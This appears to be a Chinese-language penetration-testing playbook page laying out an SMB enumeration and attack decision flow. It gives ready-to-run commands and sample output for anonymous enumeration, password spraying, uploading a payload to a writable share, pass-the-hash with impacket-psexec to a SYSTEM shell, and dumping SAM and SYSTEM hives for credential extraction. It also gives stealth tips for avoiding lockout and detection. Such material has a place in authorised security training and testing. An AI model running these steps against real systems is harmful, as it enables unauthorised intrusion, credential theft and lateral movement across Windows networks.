

# SMB 枚举与攻击状态机 (SMB Enumeration & Attack State Machine)

## 状态机概述

SMB（Server Message Block）是 Windows 网络中最常见的文件共享协议，也是内网渗透的主要攻击面。

## 原子工具状态映射 (Atomic Tool-State Mapping)

### 1. [nmap](../tools/nmap.md) - SMB 服务发现

**触发状态 (Trigger)**：
- 输入：发现 139/445 端口开放
- 前置条件：完成端口扫描

**核心命令人话版**：
```bash
# SMB 版本探测
nmap -sV -p 139,445 <target>

# SMB 脚本扫描
nmap -p 445 --script smb-protocols,smb-security-mode,smb-os-discovery <target>

# 检测 SMB 漏洞
nmap -p 445 --script smb-vuln-* <target>
```

**状态转移 (State Transition)**：
- **如果发现 SMBv1** → 转移到：EternalBlue 漏洞检测
- **如果发现 Guest 访问** → 转移到：匿名枚举
- **如果需要认证** → 转移到：凭据获取/[暴力破解](09-brute-force-attack.md)
- **如果发现漏洞** → 转移到：[漏洞利用](12-exploitation.md)

---

### 2. [enum4linux](../tools/enum4linux.md) - SMB 全面枚举

**触发状态 (Trigger)**：
- 输入：发现 SMB 服务
- 前置条件：无需凭据（尝试匿名访问）

**核心命令人话版**：
```bash
# 全面枚举（用户、共享、组、密码策略）
enum4linux -a <target>

# 只枚举用户
enum4linux -U <target>

# 只枚举共享
enum4linux -S <target>
```

**状态转移 (State Transition)**：
- **如果枚举成功** → 转移到：
  - 发现用户列表 → [暴力破解](09-brute-force-attack.md)
  - 发现可写共享 → 上传 payload
  - 发现敏感文件 → 下载分析
- **如果枚举失败（需要认证）** → 转移到：凭据获取

---

### 3. [smbclient](../tools/smbclient.md) - SMB 客户端访问

**触发状态 (Trigger)**：
- 输入：发现 SMB 共享
- 前置条件：有凭据或允许匿名访问

**核心命令人话版**：
```bash
# 列出共享
smbclient -L //<target> -N

# 连接到共享（无密码）
smbclient //<target>/share -N

# 连接到共享（有密码）
smbclient //<target>/share -U username
```

**状态转移 (State Transition)**：
- **如果连接成功** → 转移到：
  - 浏览文件 → 下载敏感文件
  - 可写权限 → 上传 webshell/payload
- **如果连接失败** → 转移到：尝试其他共享或凭据

---

### 4. [smbmap](../tools/smbmap.md) - SMB 共享权限检查

**触发状态 (Trigger)**：
- 输入：发现 SMB 服务
- 前置条件：有凭据或尝试匿名

**核心命令人话版**：
```bash
# 枚举共享和权限（无凭据）
smbmap -H <target>

# 使用凭据枚举
smbmap -H <target> -u username -p password

# 递归列出文件
smbmap -H <target> -u username -p password -r share

# 执行命令
smbmap -H <target> -u username -p password -x 'whoami'
```

**状态转移 (State Transition)**：
- **如果发现 READ 权限** → 转移到：下载敏感文件
- **如果发现 WRITE 权限** → 转移到：上传 payload
- **如果可以执行命令** → 转移到：获取 shell

---

### 5. netexec (crackmapexec) - SMB 批量测试

**触发状态 (Trigger)**：
- 输入：多个 SMB 目标或需要批量测试凭据
- 前置条件：有凭据列表

**核心命令人话版**：
```bash
# 批量测试凭据
netexec smb <target> -u users.txt -p passwords.txt

# 使用哈希认证
netexec smb <target> -u username -H <NTLM_hash>

# 枚举共享
netexec smb <target> -u username -p password --shares

# 执行命令
netexec smb <target> -u username -p password -x whoami

# 提取 SAM
netexec smb <target> -u username -p password --sam
```

**状态转移 (State Transition)**：
- **如果凭据有效** → 转移到：
  - 枚举共享
  - 执行命令
  - 提取凭据
- **如果凭据无效** → 转移到：继续[暴力破解](09-brute-force-attack.md)
- **如果是管理员** → 转移到：横向移动

---

### 6. [impacket-psexec](../tools/impacket-psexec.md) - 远程命令执行

**触发状态 (Trigger)**：
- 输入：有效的管理员凭据
- 前置条件：目标开启 SMB 和 Admin$ 共享

**核心命令人话版**：
```bash
# 使用密码
impacket-psexec domain/user:password@<target>

# 使用哈希（Pass-the-Hash）
impacket-psexec domain/user@<target> -hashes :NTLM_hash
```

**状态转移 (State Transition)**：
- **如果连接成功** → 获得 SYSTEM shell，转移到：
  - [权限提升](05-privilege-escalation.md)（已是 SYSTEM）
  - 横向移动
  - [凭据提取](06-credential-extraction.md)
- **如果连接失败** → 转移到：尝试其他方法（smbexec、wmiexec）

---

### 7. [impacket-smbexec](../tools/impacket-smbexec.md) - 无 RemComSvc 的远程执行

**触发状态 (Trigger)**：
- 输入：psexec 被检测或失败
- 前置条件：有效的管理员凭据

**核心命令人话版**：
```bash
# 使用密码
impacket-smbexec domain/user:password@<target>

# 使用哈希
impacket-smbexec domain/user@<target> -hashes :NTLM_hash
```

**状态转移 (State Transition)**：
- **如果连接成功** → 获得 shell，转移到：[后渗透](11-post-exploitation-persistence.md)
- **如果连接失败** → 转移到：尝试 WinRM 或其他方法

---

### 8. [nbtscan](../tools/nbtscan.md) - NetBIOS 扫描

**触发状态 (Trigger)**：
- 输入：内网环境，需要快速识别 Windows 主机
- 前置条件：在同一网段

**核心命令人话版**：
```bash
# 扫描 C 段
nbtscan 192.168.1.0/24
```

**状态转移 (State Transition)**：
- **如果发现 Windows 主机** → 转移到：SMB 枚举
- **如果无响应** → 转移到：其他发现方法

---

## 聚类攻击状态机 (Clustered Attack State Machine)

### SMB 攻击完整流程（If-Then-Else 逻辑）

```
[起点：发现 445 端口开放]
    ↓
[步骤 1：SMB 版本和漏洞检测]
    IF 发现 SMBv1:
        THEN 检测 EternalBlue (MS17-010)
        IF 存在漏洞:
            THEN 使用 Metasploit exploit
            → 获得 SYSTEM shell
            → 转移到[后渗透](11-post-exploitation-persistence.md)
        ELSE:
            THEN 继续枚举
    ELSE:
        THEN 继续枚举
    ↓
[步骤 2：匿名枚举]
    IF Guest Access 开启:
        THEN 使用 enum4linux -a
        IF 枚举到用户列表:
            THEN 保存用户名 → 暴力破解
        IF 枚举到共享:
            THEN 使用 smbclient 访问
            IF 发现敏感文件:
                THEN 下载分析
            IF 有写权限:
                THEN 上传 payload
        ELSE:
            THEN 记录信息，继续其他攻击
    ELSE:
        THEN 需要凭据 → 转移到凭据获取
    ↓
[步骤 3：凭据获取]
    IF 有凭据:
        THEN 跳到步骤 4
    ELSE IF 有用户列表:
        THEN 使用 hydra/netexec 暴力破解
        IF 破解成功:
            THEN 获得凭据 → 步骤 4
        ELSE:
            THEN 尝试其他攻击向量
    ELSE:
        THEN 尝试默认凭据
        THEN 尝试密码喷洒
    ↓
[步骤 4：凭据验证和权限检查]
    使用 netexec smb <target> -u user -p pass
    IF 凭据有效:
        IF 是管理员:
            THEN 转移到步骤 5（横向移动）
        ELSE:
            THEN 枚举共享 → 查找敏感文件
            THEN 尝试[权限提升](05-privilege-escalation.md)
    ELSE:
        THEN 返回步骤 3
    ↓
[步骤 5：横向移动（管理员权限）]
    IF 有明文密码:
        THEN 使用 impacket-psexec
    ELSE IF 有 NTLM 哈希:
        THEN 使用 impacket-psexec -hashes

    IF psexec 成功:
        THEN 获得 SYSTEM shell
        → 提取凭据（mimikatz/secretsdump）
        → 横向移动到其他主机
    ELSE IF psexec 失败:
        THEN 尝试 impacket-smbexec
        THEN 尝试 evil-winrm (如果 5985 开放)
```

---

## 场景决策链路 (Scenario Decision Path)

### 场景 1：内网 SMB 枚举与横向移动

**场景还原**：
```
已获得：内网立足点（192.168.10.50）
发现：192.168.10.10 开放 445 端口
目标：横向移动到 192.168.10.10
```

**状态机运行路径**：

1. **第一步：SMB 版本检测**
   ```bash
   nmap -sV -p 445 --script smb-protocols 192.168.10.10
   ```
   **输出**：
   ```
   445/tcp open  microsoft-ds
   | smb-protocols:
   |   dialects:
   |     SMB 2.0.2
   |     SMB 2.1
   |     SMB 3.0
   ```

2. **状态机判定**：不支持 SMBv1，无 EternalBlue 漏洞
   - 转移到：匿名枚举

3. **第二步：匿名枚举**
   ```bash
   enum4linux -a 192.168.10.10
   ```
   **输出**：
   ```
   [+] Enumerating users using SID S-1-5-21-xxx
   user:[Administrator] rid:[0x1f4]
   user:[Guest] rid:[0x1f5]
   user:[john] rid:[0x3e8]
   user:[alice] rid:[0x3e9]

   [+] Share Enumeration
   Sharename       Type      Comment
   ---------       ----      -------
   ADMIN$          Disk      Remote Admin
   C$              Disk      Default share
   IPC$            IPC       Remote IPC
   Documents       Disk      Shared Documents
   ```

4. **状态机判定**：枚举成功，发现用户和共享
   - 保存用户列表：Administrator, john, alice
   - 发现共享：Documents
   - 转移到：凭据获取

5. **第三步：密码喷洒**
   ```bash
   netexec smb 192.168.10.10 -u users.txt -p 'Password123' --continue-on-success
   ```
   **输出**：
   ```
   SMB  192.168.10.10  445  DC01  [+] domain\john:Password123
   ```

6. **状态机判定**：获得有效凭据 john:Password123
   - 转移到：权限检查

7. **第四步：权限检查**
   ```bash
   netexec smb 192.168.10.10 -u john -p 'Password123' --shares
   ```
   **输出**：
   ```
   Share           Permissions
   -----           -----------
   ADMIN$          NO ACCESS
   C$              NO ACCESS
   Documents       READ, WRITE
   ```

8. **状态机判定**：非管理员，但有 Documents 写权限
   - 转移到：上传 payload

9. **第五步：上传 payload**
   ```bash
   smbclient //192.168.10.10/Documents -U john
   > put shell.exe
   ```

10. **状态机判定**：上传成功
    - 转移到：寻找执行方式（计划任务、启动项等）

**内化点 (Internalization)**：
- **为什么先匿名枚举再暴力破解？**
  - 匿名枚举不产生认证失败日志，更隐蔽
  - 获取用户列表后，暴力破解更有针对性
  - 避免账户锁定

- **为什么选择密码喷洒而不是传统暴力破解？**
  - 密码喷洒：一个密码测试所有用户（避免锁定）
  - 传统暴力破解：一个用户测试所有密码（容易触发锁定）
  - 在域环境中，密码喷洒更安全

---

### 场景 2：Pass-the-Hash 横向移动

**场景还原**：
```
已获得：NTLM 哈希 (Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0)
目标：使用哈希横向移动
```

**状态机运行路径**：

1. **第一步：验证哈希有效性**
   ```bash
   netexec smb 192.168.10.10 -u Administrator -H 31d6cfe0d16ae931b73c59d7e0c089c0
   ```
   **输出**：
   ```
   SMB  192.168.10.10  445  DC01  [+] domain\Administrator:31d6cfe0d16ae931b73c59d7e0c089c0 (Pwn3d!)
   ```

2. **状态机判定**：哈希有效且是管理员（Pwn3d!）
   - 转移到：远程命令执行

3. **第二步：获取 shell**
   ```bash
   impacket-psexec domain/Administrator@192.168.10.10 -hashes :31d6cfe0d16ae931b73c59d7e0c089c0
   ```
   **输出**：
   ```
   [*] Requesting shares on 192.168.10.10.....
   [*] Found writable share ADMIN$
   [*] Uploading file xxx.exe
   [*] Opening SVCManager on 192.168.10.10.....
   [*] Creating service xxx on 192.168.10.10.....
   [*] Starting service xxx.....
   Microsoft Windows [Version 10.0.19041.1234]
   (c) Microsoft Corporation. All rights reserved.

   C:\Windows\system32> whoami
   nt authority\system
   ```

4. **状态机判定**：获得 SYSTEM shell
   - 转移到：[凭据提取](06-credential-extraction.md)

5. **第三步：提取凭据**
   ```bash
   C:\Windows\system32> reg save HKLM\SAM sam.save
   C:\Windows\system32> reg save HKLM\SYSTEM system.save
   ```
   然后使用 impacket-secretsdump 离线提取

6. **状态机判定**：获得更多凭据
   - 转移到：继续横向移动到其他主机

**内化点 (Internalization)**：
- **为什么 Pass-the-Hash 不需要破解密码？**
  - Windows NTLM 认证直接使用哈希值
  - 不需要知道明文密码
  - 这是内网渗透的核心技术

- **为什么选择 psexec 而不是 smbexec？**
  - psexec 更稳定，功能更全
  - smbexec 更隐蔽，不创建服务
  - 如果 psexec 被检测，再用 smbexec

---

## 思维判定流程图 (Decision Flowchart)



---

## 工具选择决策表

| 场景 | 首选工具 | 备选工具 | 原因 |
|------|---------|---------|------|
| 匿名枚举 | enum4linux | smbmap | enum4linux 信息更全面 |
| 凭据验证 | netexec | smbmap | netexec 支持批量测试 |
| 文件浏览 | smbclient | smbmap -r | smbclient 交互式更方便 |
| 远程执行（管理员） | impacket-psexec | impacket-smbexec | psexec 更稳定 |
| Pass-the-Hash | impacket-psexec | evil-winrm | psexec 通用性更好 |
| 批量测试 | netexec | hydra | netexec 专为 SMB 优化 |

---

## 常见陷阱与绕过

### 1. 账户锁定策略
**问题**：暴力破解触发账户锁定
**解决**：
- 使用密码喷洒（一个密码测试所有用户）
- 检查锁定策略：`netexec smb <target> --pass-pol`
- 在锁定阈值内停止

### 2. SMB 签名
**问题**：SMB 签名阻止[中间人攻击](10-network-sniffing-mitm.md)
**解决**：
- 检测签名状态：`nmap --script smb-security-mode`
- 如果未强制签名，可以进行 NTLM relay
- 如果强制签名，只能正常认证

### 3. 防火墙阻止
**问题**：445 端口被防火墙过滤
**解决**：
- 尝试 139 端口（NetBIOS over TCP）
- 通过代理或[隧道](14-tunneling-pivoting.md)访问
- 寻找其他攻击向量

---

## 下一步状态机

完成 SMB 枚举后，根据结果转移到：
1. **[Web 应用攻击](03-web-application-attack.md)状态机**（如果发现 IIS/Apache）
2. **[Active Directory](04-active-directory-attack.md) 攻击状态机**（如果在域环境）
3. **[权限提升](05-privilege-escalation.md)状态机**（如果获得低权限 shell）
4. **[凭据提取](06-credential-extraction.md)状态机**（如果获得管理员权限）

---

*状态机类型：SMB 枚举与攻击*
